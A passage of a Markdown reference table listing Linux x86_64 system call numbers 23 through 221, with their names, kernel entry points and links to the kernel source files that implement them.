| 23         | select                 | sys_select                 | [fs/select.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/select.c) |
| 24         | sched_yield            | sys_sched_yield            | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 25         | mremap                 | sys_mremap                 | [mm/mmap.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mmap.c) |
| 26         | msync                  | sys_msync                  | [mm/msync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/msync.c) |
| 27         | mincore                | sys_mincore                | [mm/mincore.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mincore.c) |
| 28         | madvise                | sys_madvise                | [mm/madvise.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/madvise.c) |
| 29         | shmget                 | sys_shmget                 | [ipc/shm.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/shm.c) |
| 30         | shmat                  | sys_shmat                  | [ipc/shm.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/shm.c) |
| 31         | shmctl                 | sys_shmctl                 | [ipc/shm.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/shm.c) |
| 32         | dup                    | sys_dup                    | [fs/file.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/file.c) |
| 33         | dup2                   | sys_dup2                   | [fs/file.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/file.c) |
| 34         | pause                  | sys_pause                  | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 35         | nanosleep              | sys_nanosleep              | [kernel/hrtimer.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/hrtimer.c) |
| 36         | getitimer              | sys_getitimer              | [kernel/itimer.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/itimer.c) |
| 37         | alarm                  | sys_alarm                  | [kernel/timer.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/timer.c) |
| 38         | setitimer              | sys_setitimer              | [kernel/itimer.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/itimer.c) |
| 39         | getpid                 | sys_getpid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 40         | sendfile               | sys_sendfile64             | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 41         | socket                 | sys_socket                 | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 42         | connect                | sys_connect                | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 43         | accept                 | sys_accept                 | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 44         | sendto                 | sys_sendto                 | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 45         | recvfrom               | sys_recvfrom               | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 46         | sendmsg                | sys_sendmsg                | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 47         | recvmsg                | sys_recvmsg                | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 48         | shutdown               | sys_shutdown               | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 49         | bind                   | sys_bind                   | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 50         | listen                 | sys_listen                 | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 51         | getsockname            | sys_getsockname            | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 52         | getpeername            | sys_getpeername            | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 53         | socketpair             | sys_socketpair             | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 54         | setsockopt             | sys_setsockopt             | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 55         | getsockopt             | sys_getsockopt             | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 56         | clone                  | stub_clone                 | [kernel/fork.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/fork.c) |
| 57         | fork                   | stub_fork                  | [kernel/fork.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/fork.c) |
| 58         | vfork                  | stub_vfork                 | [kernel/fork.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/fork.c) |
| 59         | execve                 | stub_execve                | [fs/exec.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/exec.c) |
| 60         | exit                   | sys_exit                   | [kernel/exit.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/exit.c) |
| 61         | wait4                  | sys_wait4                  | [kernel/exit.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/exit.c) |
| 62         | kill                   | sys_kill                   | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 63         | uname                  | sys_newuname               | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 64         | semget                 | sys_semget                 | [ipc/sem.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/sem.c) |
| 65         | semop                  | sys_semop                  | [ipc/sem.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/sem.c) |
| 66         | semctl                 | sys_semctl                 | [ipc/sem.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/sem.c) |
| 67         | shmdt                  | sys_shmdt                  | [ipc/shm.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/shm.c) |
| 68         | msgget                 | sys_msgget                 | [ipc/msg.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/msg.c) |
| 69         | msgsnd                 | sys_msgsnd                 | [ipc/msg.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/msg.c) |
| 70         | msgrcv                 | sys_msgrcv                 | [ipc/msg.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/msg.c) |
| 71         | msgctl                 | sys_msgctl                 | [ipc/msg.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/msg.c) |
| 72         | fcntl                  | sys_fcntl                  | [fs/fcntl.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/fcntl.c) |
| 73         | flock                  | sys_flock                  | [fs/locks.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/locks.c) |
| 74         | fsync                  | sys_fsync                  | [fs/sync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/sync.c) |
| 75         | fdatasync              | sys_fdatasync              | [fs/sync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/sync.c) |
| 76         | truncate               | sys_truncate               | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 77         | ftruncate              | sys_ftruncate              | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 78         | getdents               | sys_getdents               | [fs/readdir.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/readdir.c) |
| 79         | getcwd                 | sys_getcwd                 | [fs/dcache.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/dcache.c) |
| 80         | chdir                  | sys_chdir                  | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 81         | fchdir                 | sys_fchdir                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 82         | rename                 | sys_rename                 | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 83         | mkdir                  | sys_mkdir                  | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 84         | rmdir                  | sys_rmdir                  | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 85         | creat                  | sys_creat                  | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 86         | link                   | sys_link                   | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 87         | unlink                 | sys_unlink                 | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 88         | symlink                | sys_symlink                | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 89         | readlink               | sys_readlink               | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 90         | chmod                  | sys_chmod                  | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 91         | fchmod                 | sys_fchmod                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 92         | chown                  | sys_chown                  | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 93         | fchown                 | sys_fchown                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 94         | lchown                 | sys_lchown                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 95         | umask                  | sys_umask                  | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 96         | gettimeofday           | sys_gettimeofday           | [kernel/time.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/time.c) |
| 97         | getrlimit              | sys_getrlimit              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 98         | getrusage              | sys_getrusage              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 99         | sysinfo                | sys_sysinfo                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 100        | times                  | sys_times                  | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 101        | ptrace                 | sys_ptrace                 | [kernel/ptrace.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/ptrace.c) |
| 102        | getuid                 | sys_getuid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 103        | syslog                 | sys_syslog                 | [kernel/printk/printk.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/printk/printk.c) |
| 104        | getgid                 | sys_getgid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 105        | setuid                 | sys_setuid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 106        | setgid                 | sys_setgid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 107        | geteuid                | sys_geteuid                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 108        | getegid                | sys_getegid                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 109        | setpgid                | sys_setpgid                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 110        | getppid                | sys_getppid                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 111        | getpgrp                | sys_getpgrp                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 112        | setsid                 | sys_setsid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 113        | setreuid               | sys_setreuid               | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 114        | setregid               | sys_setregid               | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 115        | getgroups              | sys_getgroups              | [kernel/groups.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/groups.c) |
| 116        | setgroups              | sys_setgroups              | [kernel/groups.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/groups.c) |
| 117        | setresuid              | sys_setresuid              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 118        | getresuid              | sys_getresuid              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 119        | setresgid              | sys_setresgid              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 120        | getresgid              | sys_getresgid              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 121        | getpgid                | sys_getpgid                | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 122        | setfsuid               | sys_setfsuid               | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 123        | setfsgid               | sys_setfsgid               | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 124        | getsid                 | sys_getsid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 125        | capget                 | sys_capget                 | [kernel/capability.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/capability.c) |
| 126        | capset                 | sys_capset                 | [kernel/capability.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/capability.c) |
| 127        | rt_sigpending          | sys_rt_sigpending          | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 128        | rt_sigtimedwait        | sys_rt_sigtimedwait        | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 129        | rt_sigqueueinfo        | sys_rt_sigqueueinfo        | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 130        | rt_sigsuspend          | sys_rt_sigsuspend          | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 131        | sigaltstack            | sys_sigaltstack            | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 132        | utime                  | sys_utime                  | [fs/utimes.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/utimes.c) |
| 133        | mknod                  | sys_mknod                  | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 134        | uselib                 |                            | [fs/exec.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/exec.c) |
| 135        | personality            | sys_personality            | [kernel/exec_domain.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/exec_domain.c) |
| 136        | ustat                  | sys_ustat                  | [fs/statfs.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/statfs.c) |
| 137        | statfs                 | sys_statfs                 | [fs/statfs.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/statfs.c) |
| 138        | fstatfs                | sys_fstatfs                | [fs/statfs.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/statfs.c) |
| 139        | sysfs                  | sys_sysfs                  | [fs/filesystems.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/filesystems.c) |
| 140        | getpriority            | sys_getpriority            | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 141        | setpriority            | sys_setpriority            | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 142        | sched_setparam         | sys_sched_setparam         | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 143        | sched_getparam         | sys_sched_getparam         | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 144        | sched_setscheduler     | sys_sched_setscheduler     | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 145        | sched_getscheduler     | sys_sched_getscheduler     | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 146        | sched_get_priority_max | sys_sched_get_priority_max | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 147        | sched_get_priority_min | sys_sched_get_priority_min | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 148        | sched_rr_get_interval  | sys_sched_rr_get_interval  | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 149        | mlock                  | sys_mlock                  | [mm/mlock.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mlock.c) |
| 150        | munlock                | sys_munlock                | [mm/mlock.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mlock.c) |
| 151        | mlockall               | sys_mlockall               | [mm/mlock.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mlock.c) |
| 152        | munlockall             | sys_munlockall             | [mm/mlock.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mlock.c) |
| 153        | vhangup                | sys_vhangup                | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 154        | modify_ldt             | sys_modify_ldt             | [arch/x86/um/ldt.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/um/ldt.c) |
| 155        | pivot_root             | sys_pivot_root             | [fs/namespace.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namespace.c) |
| 156        | _sysctl                | sys_sysctl                 | [kernel/sysctl_binary.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sysctl_binary.c) |
| 157        | prctl                  | sys_prctl                  | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 158        | arch_prctl             | sys_arch_prctl             | [arch/x86/um/syscalls_64.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/um/syscalls_64.c) |
| 159        | adjtimex               | sys_adjtimex               | [kernel/time.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/time.c) |
| 160        | setrlimit              | sys_setrlimit              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 161        | chroot                 | sys_chroot                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 162        | sync                   | sys_sync                   | [fs/sync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/sync.c) |
| 163        | acct                   | sys_acct                   | [kernel/acct.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/acct.c) |
| 164        | settimeofday           | sys_settimeofday           | [kernel/time.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/time.c) |
| 165        | mount                  | sys_mount                  | [fs/namespace.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namespace.c) |
| 166        | umount2                | sys_umount                 | [fs/namespace.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namespace.c) |
| 167        | swapon                 | sys_swapon                 | [mm/swapfile.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/swapfile.c) |
| 168        | swapoff                | sys_swapoff                | [mm/swapfile.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/swapfile.c) |
| 169        | reboot                 | sys_reboot                 | [kernel/reboot.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/reboot.c) |
| 170        | sethostname            | sys_sethostname            | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 171        | setdomainname          | sys_setdomainname          | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 172        | iopl                   | stub_iopl                  | [arch/x86/kernel/ioport.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/ioport.c) |
| 173        | ioperm                 | sys_ioperm                 | [arch/x86/kernel/ioport.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/ioport.c) |
| 174        | create_module          |                            | NOT IMPLEMENTED                                              |
| 175        | init_module            | sys_init_module            | [kernel/module.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/module.c) |
| 176        | delete_module          | sys_delete_module          | [kernel/module.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/module.c) |
| 177        | get_kernel_syms        |                            | NOT IMPLEMENTED                                              |
| 178        | query_module           |                            | NOT IMPLEMENTED                                              |
| 179        | quotactl               | sys_quotactl               | [fs/quota/quota.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/quota/quota.c) |
| 180        | nfsservctl             |                            | NOT IMPLEMENTED                                              |
| 181        | getpmsg                |                            | NOT IMPLEMENTED                                              |
| 182        | putpmsg                |                            | NOT IMPLEMENTED                                              |
| 183        | afs_syscall            |                            | NOT IMPLEMENTED                                              |
| 184        | tuxcall                |                            | NOT IMPLEMENTED                                              |
| 185        | security               |                            | NOT IMPLEMENTED                                              |
| 186        | gettid                 | sys_gettid                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 187        | readahead              | sys_readahead              | [mm/readahead.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/readahead.c) |
| 188        | setxattr               | sys_setxattr               | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 189        | lsetxattr              | sys_lsetxattr              | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 190        | fsetxattr              | sys_fsetxattr              | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 191        | getxattr               | sys_getxattr               | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 192        | lgetxattr              | sys_lgetxattr              | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 193        | fgetxattr              | sys_fgetxattr              | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 194        | listxattr              | sys_listxattr              | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 195        | llistxattr             | sys_llistxattr             | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 196        | flistxattr             | sys_flistxattr             | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 197        | removexattr            | sys_removexattr            | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 198        | lremovexattr           | sys_lremovexattr           | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 199        | fremovexattr           | sys_fremovexattr           | [fs/xattr.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/xattr.c) |
| 200        | tkill                  | sys_tkill                  | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 201        | time                   | sys_time                   | [kernel/time.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/time.c) |
| 202        | futex                  | sys_futex                  | [kernel/futex.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/futex.c) |
| 203        | sched_setaffinity      | sys_sched_setaffinity      | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 204        | sched_getaffinity      | sys_sched_getaffinity      | [kernel/sched/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sched/core.c) |
| 205        | set_thread_area        |                            | [arch/x86/kernel/tls.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/tls.c) |
| 206        | io_setup               | sys_io_setup               | [fs/aio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/aio.c) |
| 207        | io_destroy             | sys_io_destroy             | [fs/aio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/aio.c) |
| 208        | io_getevents           | sys_io_getevents           | [fs/aio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/aio.c) |
| 209        | io_submit              | sys_io_submit              | [fs/aio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/aio.c) |
| 210        | io_cancel              | sys_io_cancel              | [fs/aio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/aio.c) |
| 211        | get_thread_area        |                            | [arch/x86/kernel/tls.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/tls.c) |
| 212        | lookup_dcookie         | sys_lookup_dcookie         | [fs/dcookies.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/dcookies.c) |
| 213        | epoll_create           | sys_epoll_create           | [fs/eventpoll.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventpoll.c) |
| 214        | epoll_ctl_old          |                            | NOT IMPLEMENTED                                              |
| 215        | epoll_wait_old         |                            | NOT IMPLEMENTED                                              |
| 216        | remap_file_pages       | sys_remap_file_pages       | [mm/fremap.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/fremap.c) |
| 217        | getdents64             | sys_getdents64             | [fs/readdir.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/readdir.c) |
| 218        | set_tid_address        | sys_set_tid_address        | [kernel/fork.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/fork.c) |
| 219        | restart_syscall        | sys_restart_syscall        | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 220        | semtimedop             | sys_semtimedop             | [ipc/sem.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/sem.c) |
| 221        | fadvise64              | sys_fadvise64              | [mm/fadvise.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/fadvise.c) |
